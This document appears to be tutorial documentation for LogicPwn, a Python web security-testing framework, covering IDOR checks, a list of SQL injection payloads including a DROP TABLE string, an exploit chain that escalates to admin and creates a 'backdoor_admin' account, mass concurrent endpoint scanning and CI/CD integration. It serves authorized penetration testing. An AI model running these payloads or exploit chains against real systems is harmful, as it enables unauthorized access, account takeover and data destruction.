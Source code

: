 .. _tutorials:

Comprehensive Tutorials & Guides
================================

Master LogicPwn with these step-by-step tutorials covering real-world security testing scenarios. Each tutorial builds practical skills while demonstrating LogicPwn's advanced capabilities.

🎓 Beginner Tutorials
--------------------

Tutorial 1: Your First Business Logic Test
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Objective**: Learn to identify and exploit an IDOR vulnerability in a web application.

**Prerequisites**: Basic understanding of web applications and HTTP requests.

**What You'll Learn**:
- Setting up LogicPwn for a new target
- Configuring authentication workflows
- Systematic IDOR testing methodology
- Interpreting and acting on results

**Step-by-Step Implementation**:

.. code-block:: python

   # Step 1: Import required modules
   from logicpwn.core.auth import AuthConfig
   from logicpwn.core.access import detect_idor_flaws, AccessDetectorConfig
   from logicpwn.core.integration_utils import AuthenticatedValidator
   import requests
   
   # Step 2: Configure target application authentication
   # Replace with your actual target application details
   auth_config = AuthConfig(
       url="https://demo-app.com/login",
       credentials={
           "username": "testuser",
           "password": "testpassword"
       },
       success_indicators=["Welcome", "Dashboard", "Profile"],
       failure_indicators=["Invalid credentials", "Login failed"]
   )
   
   # Step 3: Set up authenticated session
   validator = AuthenticatedValidator(auth_config, "https://demo-app.com")
   
   if validator.authenticate():
       print("✅ Authentication successful!")
       
       # Step 4: Define IDOR test parameters
       # Test access to user profile endpoints
       endpoint_template = "https://demo-app.com/api/users/{id}/profile"
       test_ids = ["1", "2", "3", "admin", "guest"]
       
       # Step 5: Configure access detection
       idor_config = AccessDetectorConfig(
           current_user_id="2",           # We're logged in as user 2
           authorized_ids=["2"],          # Should only access user 2
           unauthorized_ids=["1", "3", "admin", "guest"],  # Should NOT access these
           compare_unauthenticated=True   # Also test without authentication
       )
       
       # Step 6: Execute systematic IDOR testing
       print("🔍 Starting IDOR vulnerability testing...")
       results = detect_idor_flaws(
           validator.session,
           endpoint_template,
           test_ids,
           success_indicators=["user_data", "profile", "email"],
           failure_indicators=["access_denied", "unauthorized", "403"],
           config=idor_config
       )
       
       # Step 7: Analyze and report results
       vulnerabilities_found = []
       for result in results:
           print(f"\n📋 Testing ID: {result.id_tested}")
           print(f"   Status: {result.status_code}")
           print(f"   Access granted: {result.access_granted}")
           print(f"   Vulnerability: {result.vulnerability_detected}")
           
           if result.vulnerability_detected:
               vulnerabilities_found.append(result)
               print(f"   ⚠️  VULNERABILITY: Unauthorized access to {result.endpoint_url}")
       
       # Step 8: Summary report
       print(f"\n📊 IDOR Testing Summary:")
       print(f"   Total tests: {len(results)}")
       print(f"   Vulnerabilities found: {len(vulnerabilities_found)}")
       
       if vulnerabilities_found:
           print(f"\n🚨 Critical findings requiring immediate attention:")
           for vuln in vulnerabilities_found:
               print(f"   - User {vuln.id_tested}: {vuln.endpoint_url}")
   else:
       print("❌ Authentication failed. Check your credentials.")

**Expected Output**:

.. code-block:: text

   ✅ Authentication successful!
   🔍 Starting IDOR vulnerability testing...
   
   📋 Testing ID: 1
      Status: 200
      Access granted: True
      Vulnerability: True
      ⚠️  VULNERABILITY: Unauthorized access to https://demo-app.com/api/users/1/profile
   
   📋 Testing ID: 2
      Status: 200  
      Access granted: True
      Vulnerability: False
   
   📊 IDOR Testing Summary:
      Total tests: 5
      Vulnerabilities found: 2

**Key Learning Points**:
- IDOR vulnerabilities occur when applications don't properly validate user access to resources
- Systematic testing across multiple user IDs reveals access control gaps
- LogicPwn's automated approach scales to test thousands of endpoints efficiently

Tutorial 2: Automated SQL Injection Detection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Objective**: Use LogicPwn's validation presets to systematically test for SQL injection vulnerabilities.

.. code-block:: python

   from logicpwn.core.validator import validate_with_preset, list_available_presets
   from logicpwn.core.integration_utils import AuthenticatedValidator
   
   # Step 1: Explore available validation presets
   print("Available validation presets:")
   presets = list_available_presets()
   for preset in presets:
       print(f"  - {preset}")
   
   # Step 2: Set up authenticated testing
   validator = AuthenticatedValidator(auth_config, "https://target-app.com")
   validator.authenticate()
   
   # Step 3: Define SQL injection test payloads
   sql_payloads = [
       "' OR 1=1--",
       "' UNION SELECT 1,2,3--", 
       "'; DROP TABLE users--",
       "' OR 'x'='x",
       "1' AND 1=1--",
       "admin'--"
   ]
   
   # Step 4: Test multiple endpoints with SQL injection payloads
   test_endpoints = [
       "/search",
       "/user/profile", 
       "/admin/users",
       "/api/data/export"
   ]
   
   print("\n🔍 Starting SQL Injection Testing...")
   vulnerabilities = []
   
   for endpoint in test_endpoints:
       print(f"\n📍 Testing endpoint: {endpoint}")
       
       for payload in sql_payloads:
           # Test GET parameter injection
           result = validator.request_and_validate(
               "GET", 
               f"{endpoint}?search={payload}",
               validation_preset="sql_injection"
           )
           
           if result['validation'].is_valid:
               vulnerability = {
                   'endpoint': endpoint,
                   'method': 'GET',
                   'parameter': 'search',
                   'payload': payload,
                   'confidence': result['validation'].confidence_score,
                   'indicators': result['validation'].matched_patterns
               }
               vulnerabilities.append(vulnerability)
               print(f"   ⚠️  SQL Injection detected!")
               print(f"       Payload: {payload}")
               print(f"       Confidence: {vulnerability['confidence']}")
   
   # Step 5: Generate vulnerability report
   print(f"\n📊 SQL Injection Testing Summary:")
   print(f"   Endpoints tested: {len(test_endpoints)}")
   print(f"   Payloads per endpoint: {len(sql_payloads)}")
   print(f"   Total tests: {len(test_endpoints) * len(sql_payloads)}")
   print(f"   Vulnerabilities found: {len(vulnerabilities)}")

🚀 Intermediate Tutorials  
--------------------------

Tutorial 3: Complex Multi-Step Exploit Chain
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Objective**: Build an automated privilege escalation attack chain.

.. code-block:: python

   from logicpwn.core.exploit_engine.models import ExploitChain, ExploitStep
   from logicpwn.core.exploit_engine.exploit_engine import run_exploit_chain
   from logicpwn.models.request_config import RequestConfig
   
   # Advanced exploit chain for privilege escalation
   privilege_escalation_chain = ExploitChain(
       name="Multi-Step Privilege Escalation",
       description="Automated attack chain from user to admin access",
       steps=[
           # Step 1: Initial user authentication
           ExploitStep(
               name="User Authentication",
               description="Login as regular user account",
               request_config=RequestConfig(
                   url="https://target.com/api/auth/login",
                   method="POST",
                   data={
                       "username": "regularuser",
                       "password": "userpass123"
                   },
                   headers={"Content-Type": "application/json"}
               ),
               success_indicators=["access_token", "user_role"],
               failure_indicators=["invalid_credentials", "auth_failed"]
           ),
           
           # Step 2: Extract session token for privilege escalation
           ExploitStep(
               name="Token Extraction",
               description="Extract authentication token from user session",
               request_config=RequestConfig(
                   url="https://target.com/api/user/session",
                   method="GET"
               ),
               success_indicators=["session_token", "csrf_token"],
               payload_injection_points=[
                   PayloadInjectionPoint(
                       location="header",
                       parameter="Authorization", 
                       extraction_pattern=r'"token":"([^"]+)"'
                   )
               ]
           ),
           
           # Step 3: Attempt admin function access
           ExploitStep(
               name="Admin Access Attempt",
               description="Try to access admin-only functionality",
               request_config=RequestConfig(
                   url="https://target.com/api/admin/users",
                   method="GET"
               ),
               success_indicators=["admin_panel", "user_management", "all_users"],
               failure_indicators=["access_denied", "insufficient_privileges"],
               critical=True  # Mark as critical step
           ),
           
           # Step 4: User creation with admin privileges
           ExploitStep(
               name="Admin User Creation",
               description="Create new admin user account",
               request_config=RequestConfig(
                   url="https://target.com/api/admin/users/create",
                   method="POST",
                   data={
                       "username": "backdoor_admin",
                       "password": "backdoor123!",
                       "role": "administrator",
                       "permissions": ["all"]
                   }
               ),
               success_indicators=["user_created", "admin_role_assigned"],
               failure_indicators=["creation_failed", "permission_denied"],
               critical=True
           )
       ]
   )
   
   # Execute the exploit chain
   print("🚀 Starting automated privilege escalation...")
   results = run_exploit_chain(authenticated_session, privilege_escalation_chain)
   
   # Analyze results
   successful_steps = 0
   critical_failures = 0
   
   for result in results:
       print(f"\n📋 Step: {result.step_name}")
       print(f"   Status: {result.status}")
       
       if result.status == "success":
           successful_steps += 1
           print(f"   ✅ Success: {result.response_summary}")
       else:
           print(f"   ❌ Failed: {result.error_message}")
           if result.critical:
               critical_failures += 1
   
   print(f"\n📊 Exploit Chain Summary:")
   print(f"   Total steps: {len(results)}")
   print(f"   Successful steps: {successful_steps}")
   print(f"   Critical failures: {critical_failures}")
   
   if successful_steps == len(results):
       print("🎯 FULL PRIVILEGE ESCALATION SUCCESSFUL!")
   elif critical_failures > 0:
       print("⚠️  Critical steps failed - partial exploitation only")

Tutorial 4: High-Performance Concurrent Testing
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Objective**: Scale security testing to handle thousands of endpoints efficiently.

.. code-block:: python

   import asyncio
   from logicpwn.core.runner import AsyncSessionManager
   from logicpwn.core.stress import StressTester, StressTestConfig
   from logicpwn.core.performance import monitor_performance
   
   @monitor_performance("large_scale_security_test")
   async def large_scale_security_testing():
       """
       Test 1000+ endpoints for IDOR vulnerabilities concurrently.
       """
       
       # Step 1: Generate large test dataset
       base_endpoints = [
           "/api/users/{id}",
           "/api/orders/{id}", 
           "/api/documents/{id}",
           "/api/profiles/{id}",
           "/api/messages/{id}"
       ]
       
       user_ids = range(1, 201)  # Test 200 user IDs
       test_endpoints = []
       
       for endpoint_template in base_endpoints:
           for user_id in user_ids:
               test_endpoints.append(
                   endpoint_template.format(id=user_id)
               )
       
       print(f"🎯 Prepared {len(test_endpoints)} endpoints for testing")
       
       # Step 2: Configure high-performance testing
       stress_config = StressTestConfig(
           max_concurrent=100,      # 100 simultaneous connections
           duration=300,            # 5 minutes maximum
           memory_monitoring=True,
           cpu_monitoring=True
       )
       
       # Step 3: Execute concurrent testing
       async with StressTester(stress_config) as tester:
           print("🚀 Starting high-performance security testing...")
           
           # Convert endpoints to request configs
           request_configs = [
               {"url": f"https://target.com{endpoint}", "method": "GET"}
               for endpoint in test_endpoints
           ]
           
           # Run stress test with security validation
           metrics = await tester.run_stress_test(
               request_configs,
               auth_config=auth_config
           )
           
           print(f"\n📊 Performance Metrics:")
           print(f"   Total requests: {metrics.total_requests}")
           print(f"   Requests per second: {metrics.requests_per_second:.2f}")
           print(f"   Success rate: {metrics.success_rate:.1f}%")
           print(f"   Average response time: {metrics.avg_response_time:.2f}ms")
           print(f"   Peak memory usage: {metrics.peak_memory_mb:.1f}MB")
           print(f"   Peak CPU usage: {metrics.peak_cpu_percent:.1f}%")
           
           # Step 4: Analyze security findings
           security_issues = []
           for request_id, result in metrics.detailed_results.items():
               if result.get('security_analysis', {}).get('has_vulnerabilities'):
                   security_issues.append({
                       'endpoint': result['url'],
                       'issues': result['security_analysis']
                   })
           
           print(f"\n🔍 Security Analysis:")
           print(f"   Endpoints with vulnerabilities: {len(security_issues)}")
           
           return metrics, security_issues

   # Run the large-scale test
   async def main():
       metrics, issues = await large_scale_security_testing()
       
       if issues:
           print("\n⚠️  Security vulnerabilities found:")
           for issue in issues[:5]:  # Show first 5 issues
               print(f"   - {issue['endpoint']}")
   
   asyncio.run(main())

🎯 Advanced Tutorials
--------------------

Tutorial 5: Custom Validation Rule Development
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Objective**: Create application-specific security validation rules.

.. code-block:: python

   from logicpwn.core.validator.validator_models import ValidationConfig, ValidationResult
   from logicpwn.core.validator import validate_response
   import re
   
   class CustomBankingValidator:
       """Custom validation rules for banking applications."""
       
       @staticmethod
       def create_account_number_exposure_validator():
           """Detect exposure of sensitive account numbers."""
           return ValidationConfig(
               failure_criteria=[
                   "account number", "account_number", "acct_num",
                   "routing number", "routing_number", "sort_code"
               ],
               regex_patterns=[
                   r'\b\d{10,12}\b',        # Account numbers (10-12 digits)
                   r'\b\d{9}\b',            # Routing numbers (9 digits)
                   r'\b\d{4}[-\s]?\d{4}[-\s]?\d{4}[-\s]?\d{4}\b'  # Credit cards
               ],
               confidence_threshold=0.8,
               require_all_patterns=False
           )
       
       @staticmethod 
       def create_transaction_manipulation_validator():
           """Detect transaction manipulation vulnerabilities."""
           return ValidationConfig(
               success_criteria=[
                   "transaction_successful", "payment_processed", 
                   "transfer_complete", "balance_updated"
               ],
               failure_criteria=[
                   "insufficient_funds", "invalid_account",
                   "transaction_failed", "authorization_declined"
               ],
               regex_patterns=[
                   r'amount["\']:\s*["\']?(-?\d+\.?\d*)["\']?',  # Negative amounts
                   r'balance["\']:\s*["\']?(\d+\.?\d*)["\']?'    # Balance extraction
               ],
               confidence_threshold=0.9
           )
   
   # Usage example
   banking_validator = CustomBankingValidator()
   
   # Test for account number exposure
   account_validator = banking_validator.create_account_number_exposure_validator()
   
   # Mock response that might contain sensitive data
   test_response = MockResponse(
       text='{"user": "john_doe", "account_number": "1234567890", "balance": 5000}',
       status_code=200
   )
   
   result = validate_response(test_response, account_validator)
   
   if result.is_valid:
       print("⚠️  Account number exposure detected!")
       print(f"   Confidence: {result.confidence_score}")
       print(f"   Matched patterns: {result.matched_patterns}")

Tutorial 6: Enterprise CI/CD Integration
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Objective**: Integrate LogicPwn into enterprise deployment pipelines.

.. code-block:: yaml

   # .github/workflows/security-pipeline.yml
   name: Enterprise Security Pipeline
   
   on:
     push:
       branches: [main, develop, staging]
     pull_request:
       branches: [main]
     schedule:
       - cron: '0 2 * * *'  # Daily at 2 AM
   
   jobs:
     security-assessment:
       runs-on: ubuntu-latest
       
       strategy:
         matrix:
           environment: [staging, production]
           test-suite: [api-security, business-logic, performance]
       
       steps:
         - name: Checkout Code
           uses: actions/checkout@v3
         
         - name: Setup Python Environment
           uses: actions/setup-python@v4
           with:
             python-version: '3.11'
         
         - name: Install LogicPwn Enterprise
           run: |
             pip install logicpwn[enterprise,async,reporting]
         
         - name: Configure Security Testing
           env:
             LOGICPWN_LICENSE: ${{ secrets.LOGICPWN_ENTERPRISE_LICENSE }}
             TARGET_ENV: ${{ matrix.environment }}
           run: |
             # Generate environment-specific configuration
             python scripts/generate_security_config.py \
               --environment $TARGET_ENV \
               --test-suite ${{ matrix.test-suite }}
         
         - name: Execute Security Testing
           run: |
             python -m logicpwn.enterprise.security_pipeline \
               --config security-config-${{ matrix.environment }}.yaml \
               --test-suite ${{ matrix.test-suite }} \
               --output security-results-${{ matrix.test-suite }}.json \
               --fail-on-critical
         
         - name: Generate Security Report
           if: always()
           run: |
             python -m logicpwn.enterprise.report_generator \
               --input security-results-${{ matrix.test-suite }}.json \
               --format executive-summary \
               --output security-report-${{ matrix.test-suite }}.pdf
         
         - name: Upload Security Artifacts
           uses: actions/upload-artifact@v3
           if: always()
           with:
             name: security-results-${{ matrix.environment }}-${{ matrix.test-suite }}
             path: |
               security-results-*.json
               security-report-*.pdf
         
         - name: Notify Security Team
           if: failure()
           uses: 8398a7/action-slack@v3
           with:
             status: failure
             channel: '#security-alerts'
             text: 'Critical security vulnerabilities detected in ${{ matrix.environment }}'
           env:
             SLACK_WEBHOOK_URL: ${{ secrets.SLACK_WEBHOOK }}

.. code-block:: python

   # scripts/generate_security_config.py
   """
   Generate environment-specific LogicPwn configuration for CI/CD pipeline.
   """
   
   import yaml
   import argparse
   import os
   
   def generate_security_config(environment, test_suite):
       """Generate security testing configuration for specific environment."""
       
       base_config = {
           'staging': {
               'base_url': 'https://staging-api.company.com',
               'auth': {
                   'url': 'https://staging-auth.company.com/login',
                   'credentials': {
                       'username': os.getenv('STAGING_TEST_USER'),
                       'password': os.getenv('STAGING_TEST_PASS')
                   }
               },
               'concurrency': 50,
               'timeout': 30
           },
           'production': {
               'base_url': 'https://api.company.com', 
               'auth': {
                   'url': 'https://auth.company.com/login',
                   'credentials': {
                       'username': os.getenv('PROD_TEST_USER'),
                       'password': os.getenv('PROD_TEST_PASS')  
                   }
               },
               'concurrency': 20,  # Lower concurrency for production
               'timeout': 60
           }
       }
       
       test_suites = {
           'api-security': {
               'tests': ['sql_injection', 'xss', 'auth_bypass'],
               'endpoints': ['/api/v1/users', '/api/v1/orders', '/api/v1/payments'],
               'validation_presets': ['sql_injection', 'xss', 'auth_bypass']
           },
           'business-logic': {
               'tests': ['idor', 'privilege_escalation', 'workflow_bypass'],
               'exploit_chains': ['user_to_admin', 'payment_manipulation'],
               'access_control_matrix': True
           },
           'performance': {
               'tests': ['load_testing', 'stress_testing', 'concurrent_user_simulation'],
               'max_concurrent': 100,
               'duration': 300,
               'memory_monitoring': True
           }
       }
       
       config = {
           **base_config[environment],
           'test_suite': test_suites[test_suite],
           'reporting': {
               'formats': ['json', 'html', 'pdf'],
               'include_executive_summary': True,
               'compliance_mapping': ['SOC2', 'ISO27001']
           }
       }
       
       return config

📚 Best Practices & Tips
-----------------------

**Performance Optimization**

1. **Use Async for Scale**: When testing 100+ endpoints, always use async execution
2. **Implement Rate Limiting**: Respect target application limits to avoid blocking
3. **Monitor Resource Usage**: Track memory and CPU during large-scale testing
4. **Cache Authenticated Sessions**: Reuse authentication tokens when possible

**Security Testing Methodology**

1. **Start with Authentication**: Always verify authentication mechanisms first
2. **Systematic IDOR Testing**: Test access controls across all user roles and resources
3. **Business Logic Focus**: Look beyond technical vulnerabilities to workflow flaws
4. **Document Everything**: Maintain detailed logs and evidence for all testing

**CI/CD Integration**

1. **Environment-Specific Configs**: Different settings for dev/staging/production
2. **Fail-Fast Principle**: Stop pipeline on critical security vulnerabilities
3. **Automated Reporting**: Generate reports automatically for security teams
4. **Notification Integration**: Alert security teams immediately on critical findings

.. seealso::

   * :doc:`getting_started` - Basic concepts and installation
   * :doc:`api_reference` - Complete function documentation  
   * :doc:`case_studies` - Real-world implementation examples
